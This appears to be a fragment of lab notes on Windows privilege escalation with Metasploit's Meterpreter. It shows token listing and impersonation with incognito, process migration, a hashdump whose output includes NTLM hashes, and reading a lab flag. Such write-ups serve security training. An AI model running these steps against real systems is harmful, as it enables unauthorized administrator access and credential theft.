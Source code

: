 ```bash
hashdump # try to check if the user have sufficient privileges
```

### Privilege Escalation

#### [Incognito](https://www.offsec.com/metasploit-unleashed/fun-incognito/)

```bash
load incognito
```

```bash
list_tokens -u

    Delegation Tokens Available
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE

    Impersonation Tokens Available
    ========================================
    No tokens available
```

- `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
	Server username: ATTACKDEFENSE\Administrator

ps
migrate 3548
# explorer.exe

hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

```bash
cd C:\\Users\\Administrator\\Desktop\\
dir
cat flag.txt
	x28c832a39730b7d46d6c38f1ea18e12
```
